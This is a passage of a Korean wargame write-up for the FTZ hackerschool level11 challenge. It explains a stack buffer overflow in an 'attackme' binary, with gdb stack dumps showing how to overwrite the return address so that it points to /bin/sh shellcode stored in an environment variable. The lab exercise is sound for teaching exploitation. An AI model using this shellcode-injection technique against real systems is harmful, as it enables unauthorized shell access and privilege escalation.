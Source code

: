때문에 취약한 함수가 실행되고 난 후, `0x80484a5`에 bp를 걸고 진행하면 되겠다.
스택 계산을 하면, `main`함수에서 초기 스택 할당 시, `0x108(264)`만큼 할당하는 것을 확인할 수 있다.(`main+3`)

기존 알고있는 스택 구조 상, `| 264 byte(char[256]) | 4 byte(SFP) | 4 byte(RET) |` 임을 알 수 있다.
그럼 우린 여기서 RET의 주소를 환경변수 내 쉘 코드가 존재하는 주소의 값으로 변조하면 된다.

다음과 같이 gdb에서 버퍼오버플로우를 이용하여 스택을 살펴본다.

```assembly
(gdb) b *main+53
Breakpoint 1 at 0x80484a5
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/level11/tmp/attackme `python -c 'print "A"*256'`

Breakpoint 1, 0x080484a5 in main ()
(gdb) x/128x $esp
0xbfffe590:	0xbfffe5a0	0xbffffb01	0xbfffe5c0	0x00000001
0xbfffe5a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe5b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe600:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe610:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe630:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe640:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe650:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe660:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe670:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe690:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6a0:	0x4200af00	0x42130a14	0xbfffe6c8	0x42015574	; dummy 8byte, sfp, ret
0xbfffe6b0:	0x00000002	0xbfffe6f4	0xbfffe700	0x4001582c	; argc, argv, env ...


(gdb) x/x 0xbfffe6f4	;argv
0xbfffe6f4:	0xbffffae6
(gdb) x/2s 0xbffffae6
0xbffffae6:	 "/home/level11/tmp/attackme"
0xbffffb01:	 'A' <repeats 200 times>...

(gdb) x/x 0xbfffe700	; env
0xbfffe700:	0xbffffc02
(gdb) x/24s 0xbffffc02
0xbffffc02:	 "HOSTNAME=ftz.hackerschool.org"
0xbffffc20:	 "SHELLCODE=101̜200\211211󿿱0F̜2001󿿐h//shh/bin\211⏓\211󿲒°\v̜200"	;환경변수 내 쉘코드
0xbffffc54:	 "SHELL=/bin/bash"
0xbffffc64:	 "TERM=xterm"
0xbffffc6f:	 "HISTSIZE=1000"
0xbffffc7d:	 "SSH_CLIENT=192.168.64.1 1895 22"
0xbffffc9d:	 "SSH_TTY=/dev/pts/2"
0xbffffcb0:	 "USER=level11"
0xbffffcbd:	 "LS_COLORS=no=00:fi=00:di=00;34:ln=00;36:pi=40;33:so=00;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=00;32:*.cmd=00;32:*.exe=00;32:*.com=00;32:*.btm=00;32:*.bat=00;32:*.sh=00;32:*.csh=00"...
0xbffffd85:	 ";32:*.tar=00;31:*.tgz=00;31:*.arj=00;31:*.taz=00;31:*.lzh=00;31:*.zip=00;31:*.z=00;31:*.Z=00;31:*.gz=00;31:*.bz2=00;31:*.bz=00;31:*.tz=00;31:*.rpm=00;31:*.cpio=00;31:*.jpg=00;35:*.gif=00;35:*.bmp=00;3"...
0xbffffe4d:	 "5:*.xbm=00;35:*.xpm=00;35:*.png=00;35:*.tif=00;35:"
0xbffffe80:	 "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/level11/bin"
0xbffffec3:	 "MAIL=/var/spool/mail/level11"
0xbffffee0:	 "PWD=/home/level11/tmp"
0xbffffef6:	 "INPUTRC=/etc/inputrc"
```